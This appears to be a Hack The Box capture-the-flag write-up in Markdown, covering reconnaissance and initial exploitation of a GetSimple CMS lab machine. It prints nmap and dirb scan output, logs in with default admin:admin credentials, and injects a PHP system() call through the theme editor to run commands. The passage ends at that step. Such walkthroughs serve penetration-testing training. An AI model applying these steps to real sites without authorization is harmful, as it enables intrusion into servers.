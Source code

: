 ## Enumeration / Recon

Nmap Scan - Check open ports

```bash
nmap -sCV -oN nmap.txt ip_addr
```

```bash
# Nmap 7.94SVN scan initiated Thu Jun  6 21:22:22 2024 as: nmap -sCV -oN nmap.txt -v 10.129.194.173
Nmap scan report for 10.129.194.173
Host is up (0.044s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 4c:73:a0:25:f5:fe:81:7b:82:2b:36:49:a5:4d:c8:5e (RSA)
|   256 e1:c0:56:d0:52:04:2f:3c:ac:9a:e7:b1:79:2b:bb:13 (ECDSA)
|_  256 52:31:47:14:0d:c3:8e:15:73:e3:c4:24:a2:3a:12:77 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 1 disallowed entry 
|_/admin/
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Welcome to GetSimple! - gettingstarted
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Jun  6 21:22:34 2024 -- 1 IP address (1 host up) scanned in 12.30 seconds
```

> We see that there are only 2 ports open, SSH and HTTP, we can do some more recon on the web server as it is most likely our way to get a foothold on the machine.

### Web Enumeration

```bash
$ dirb http://10.129.194.173 -o dirb.out
-----------------
DIRB v2.22    
By The Dark Raver
-----------------

OUTPUT_FILE: dirb.out
START_TIME: Fri Jun  7 14:34:45 2024
URL_BASE: http://10.129.194.173/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://10.129.194.173/ ----
==> DIRECTORY: http://10.129.194.173/admin/                                                                                                                                                  
==> DIRECTORY: http://10.129.194.173/backups/                                                                                                                                                
==> DIRECTORY: http://10.129.194.173/data/                                                                                                                                                   
+ http://10.129.194.173/index.php (CODE:200|SIZE:5485)                                                                                                                                       
==> DIRECTORY: http://10.129.194.173/plugins/                                                                                                                                                
+ http://10.129.194.173/robots.txt (CODE:200|SIZE:32)                                                                                                                                        
+ http://10.129.194.173/server-status (CODE:403|SIZE:279)                                                                                                                                    
+ http://10.129.194.173/sitemap.xml (CODE:200|SIZE:431)                                                                                                                                      
==> DIRECTORY: http://10.129.194.173/theme/
```

We have an interesting directory /admin/
The webpage gives us a login prompt, checking most common default credentials, admin:admin and we are in.
At the bottom of the admin dashboard we can see that the webpage is running on - GetSimpleCMS 3.3.15
There are a lot of explpiots availalbe online but we can try to get a shell by manual exploitation.

One interesting thing I noticed the web page has is the theme module, we can edit themes which are a bunch of php files that can be run on the web server and they have no input sanitization and we can run the PHP system command.
To get to the theme editing page follow the steps below:

![image](https://github.com/brownPineapple/hackthebox/assets/30342446/6898f45a-250b-42f7-9ab6-3fb3e7af28cc)

It should take you to the Innovation theme default template page,
delete all the php code from the default template and put the following code -

```bash
<?php system ('id'); ?>
```

![image](https://github.com/brownPineapple/hackthebox/assets/30342446/b7372da9-83ca-4572-8414-519e5dae9d94)
